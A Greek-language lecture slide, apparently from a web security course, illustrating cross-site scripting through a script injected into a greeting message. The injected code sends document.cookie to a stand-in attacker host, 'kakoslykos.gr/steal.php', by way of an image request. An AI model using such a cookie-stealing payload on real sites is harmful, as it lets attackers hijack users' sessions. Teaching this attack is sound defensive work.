

# XSS
Αλλάζοντας τα περιεχόμενα του script έχουμε πλέον απόλυτο έλεγχο στο τι θα εκτελεστεί σε ένα site που δεν είναι δικό μας...
<p>Welcome, diony
<script type=“text/javascript”>
    var img = document.createElement( ‘img’ );
    img.src = ‘http://kakoslykos.gr/steal.php’ + document.cookie;
    document.appendChild( img );
</script>
ziz</p>